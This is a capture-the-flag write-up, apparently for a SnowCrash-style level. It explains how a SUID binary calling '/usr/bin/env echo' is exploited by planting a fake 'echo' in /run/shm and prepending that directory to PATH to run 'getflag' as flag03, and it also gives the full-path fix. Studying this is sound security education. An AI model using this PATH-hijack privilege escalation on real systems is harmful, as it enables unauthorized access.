

# Security Vulnerability for Level03

The vulnerability is caused by executing a command by name through the PATH environment, which is controlled by any user.
To avoid this vulnerability use a whole path `/bin/echo` instead.

## Finding the Password for the `level04` User

### 1. Inspect the `level03` Executable

```bash
ls -l
```
Output:

```bash
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The important part is `s` in permissions

### 2. What `s` Means in Permissions:



The `s` permission allows a file to run with the permissions of its owner or group instead of the permissions of the user who executes it.

It's useful if user need to use a program with root privileges, but we don't want to give this user the full access.

SUID - which stands for Set User ID - is a permission that applies only to files, not directories.
When you execute a script or file, you perform the task using the privileges of the current UID (User ID) - the owner of the file.

Unlike SUID, SGID applies to both files and directories.
SGID stands for Set Group ID. If a user runs a script they own that has the SGID bit set, the script executes with the privileges of the group to which it belongs.

For example, a script belonging to the `root` group could read from or write to files or directories that would normally be inaccessible to the user.

It gives the idea that the file owned by `flag03` user can let `level03` user execute smth that normally `level03` user doesn't have permission for.

### 3. Inspect the Program `level03`

Execute the program:
```bash
./level03
```
Output: `Exploit me`.

Inspect the executable to understand how this message is produced: 
```bash
strings level03
```

The relevant command is:  
`/usr/bin/env echo Exploit me`

The important part is that `env` is used to execute `echo`.

### 4. Understanding the `PATH` Vulnerability

`echo` is normally a shell built in command, but in this case the program calls `/usr/bin/env echo`, not `/bin/echo`. It searches for an executable named echo using the PATH environment variable.

Check the current `PATH` from env:

```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

The system executable of `echo` can be found with:
```bash
which echo
```

Output:
```bash
/bin/echo
```

To execute `echo` command from env - env searches the directories listed in `PATH` from left to right, it gives the idea to create our own file `/our_path/echo` and to place its directory `/our_path` to path in env before `/bin`, so it is executed before `/bin/echo` file.

The `/usr/bin/env echo` will execute our `echo` instead `/bin/echo`.

Since level03 has the SUID bit set and is owned by flag03, our malicious echo will be executed with the effective UID of flag03.
`/our_path/echo` can call `getflag` command because at this moment `level03` executable has execution right of `flag03`.

### 5. Find a Writable Directory

The home directory is not writable:
```bash
ls -ld
```
Output:
dr-x------

Find directories where the current user has write permission:
```bash
find / -type d -writable 2>/dev/null
```

Try to create a file in each directory:
```bash
touch /current_path/echo
```
Result: created a file `/run/shm/echo`

### 6. Create the Malicious `echo`

Give the permissions to the file `/run/shm/echo` so it can be executed:

```bash
chmod +x /run/shm/echo
```

Put command `getflag` inside the file.

### 7. Modify `PATH`

```bash
env | grep PATH
```
Copy the whole PATH.  
Add `/run/shm` to the beginning of `PATH` in `env`:

```bash
export PATH="/run/shm:/other_paths_copied_from_env"
```

### 8. Execute `./level03`

Result: Check flag.Here is your token.
It retrieves the password for the next level.